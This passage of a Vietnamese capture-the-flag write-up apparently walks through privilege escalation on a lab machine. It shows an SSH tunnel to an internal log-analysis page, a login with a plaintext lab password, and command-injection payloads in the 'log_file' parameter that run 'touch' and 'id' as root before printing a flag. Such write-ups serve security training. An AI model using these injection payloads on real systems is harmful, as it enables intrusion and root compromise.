```
LISTEN    0         10               127.0.0.1:48181            0.0.0.0:*                
LISTEN    0         4096         127.0.0.53%lo:53               0.0.0.0:*                
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*                
LISTEN    0         128                   [::]:22                  [::]:*    
```
Có cái port 8080 và 48181, curl vào thì 8080 có trả về kết quả là 1 trang web 

Tôi trỏ port 8080 ra ngoài `ssh -L 8081:localhost:8080 amay@10.10.11.28` , truy cập vào là trang web, tôi dùng cred là `amay:mychemicalromance` thì vào được:

<img width="1612" height="812" alt="image" src="https://github.com/user-attachments/assets/6d4f8dfb-8c59-4582-933e-6f9aee4f9f29" />

Trang web phân tích các tệp `auth.log` và `access.log`, vào burp thì thấy nó sử dụng param `log_file` để phân tích 

<img width="1525" height="869" alt="image" src="https://github.com/user-attachments/assets/ea6b6c1e-e46f-4ea1-8fb5-942bdfea117e" />

Tôi thử cmdi bằng payload `log_file=%2Fvar%2Flog%2Fauth.log;touch+/tmp/hello.txt` tạo file `/tmp/hello.txt`:

<img width="1294" height="515" alt="image" src="https://github.com/user-attachments/assets/8936a4e2-3928-45dc-8375-ae29bb8f25d9" />

Tôi sử dụng `log_file=%2Fvar%2Flog%2Fauth.log;id+>+/tmp/hello.txt` để ghi kết quả của lệnh id vào `/tmp/hello.txt`, khi mở file ra thì có kết quả:
```
amay@sea:/tmp$ cat hello.txt 
uid=0(root) gid=0(root) groups=0(root)
```
Vậy là có thể leo lên quyền root:
```
amay@sea:/tmp$ cat hello.txt 
f71cec56e1ef23940142ddcfc10bd41a
```








